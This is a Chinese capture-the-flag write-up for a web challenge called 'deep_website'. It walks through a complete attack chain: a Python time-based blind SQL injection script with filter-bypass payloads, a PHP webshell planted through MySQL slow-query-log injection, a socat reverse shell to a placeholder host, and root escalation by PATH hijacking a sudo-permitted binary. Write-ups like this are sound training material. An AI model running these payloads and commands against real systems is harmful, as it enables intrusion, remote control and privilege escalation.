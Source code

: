 ## deep_website


****

出题人：guoql

![image-20240413222831374](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413222831374.png)



取材自某次真实渗透，不说两句话，开发与安全缺一不可。

信息收集：

存在SQL注入漏洞，禁用了双写绕过，大小写绕过等常见绕过形式

SQL过滤了常见的SQL语句如空格，\>,\<,=等符号

通过抓包可以绕过验证码，只要不访问index.php，不刷新验证码，就可以使用同一个验证码。

可以通过异或盲注和benchmark函数进行盲注。

```python
import requests
import time

head = '''Host: 192.168.174.133:14124
Connection: keep-alive
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.174.133:14124
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.174.133:14124/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7363df76975485eaae419dea46746cb7'''.split("\n")

verifyCode = "tfMs"

url = "http://192.168.174.133:14124/checkLogin.php"

delay = 1.0


headers = {}

for k in head:
	temp = k.split(": ")
	i=temp[0]
	j="".join(temp[1:])
	headers[i] = j

if headers.get("") is not None:
	headers.pop("")



def fetchSQL(sql, pos):
	for i in range(20, 129):
		payload = f"1')/*!UNION*//**//*!SELECT*/(CASE/**/WHEN/**/ASCII(mid(concat(({sql})),{pos},1))^{i}/**/THEN/**/0/**/ELSE/**/BENCHMARK(8000000,md5(1))/**/END)#"
		data = {"user":payload,"password":"1","verifyCode":verifyCode}
		start = time.time()
		connect = requests.post(url,headers=headers,data=data)
		# print(connect.text)
		end = time.time()
		if end - start > delay:
			return i
	return None

def crackSQL(sql):
	strs = ""
	for pos in range(1,100):
		temp = fetchSQL(sql, pos)
		if temp is None:
			break
		print(chr(temp),end="")
		strs += chr(temp)
	print("")
	return strs

def main():
	sql1 = "database()"
	sql2 = "/*!SELECT*//**/group_concat(schema_name)/**/from/**/information_schema.schemata"
	sql3 = "/*!SELECT*//**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'secret'"
	sql4 = "/*!SELECT*//**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'path'"
	sql5 = "/*!SELECT*//**/group_concat(filename)/**/from/**/secret.path"
	sql6 = "/*!SELECT*//**/group_concat(filepath)/**/from/**/secret.path"
	crackSQL(sql1)#手动切换sql

main()

```

发现两个路径

flagggggg__wher_e_14_F5MSsYteUvm21W9w.txt,Mysql_connect_shell.php

```
flag is in the root directory and has root privileges

```

访问第一个，得到一句话

flag以root权限在根目录

访问MySQL那个路径

```php
<?php
require_once "config.php";

if(isset($_POST["sql"])){
    $sql = trim($_POST["sql"]);
    var_dump(fetchOne($sql));
}
else{
    highlight_file(__FILE__);
}

?>

```

发现是执行SQL的后端

sql终端为最高权限，secure_file_priv权限没开启，尝试慢日志注入

```mysql
set global slow_query_log=1;
SET GLOBAL slow_query_log_file='/var/www/html/shell.php';
select '<?php eval($_GET[a])?>' or SLEEP(11);

```

分别执行上面3句话

即可访问shell.php

此时获得一句话木马

用一句话木马执行系统命令：apk list，发现有socat

使用socat反弹shell

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ip:port

```

反弹shell后提权：

使用sudo -l 查看，发现可以无密码执行/bin/menu

下载下来用ida或者用strings查看menu文件，发现里边的system用的是环境变量，没有用绝对路径

我们修改环境变量中ifconfig的值

```bash
cp /bin/bash /tmp/ifconfig
chmod 777 /tmp/ifconfig
export PATH=/tmp:$PATH

```

此后执行

```bash
sudo menu
```

输入2，获得shell，whoami权限为root

然后用root权限cat /flag.txt即可





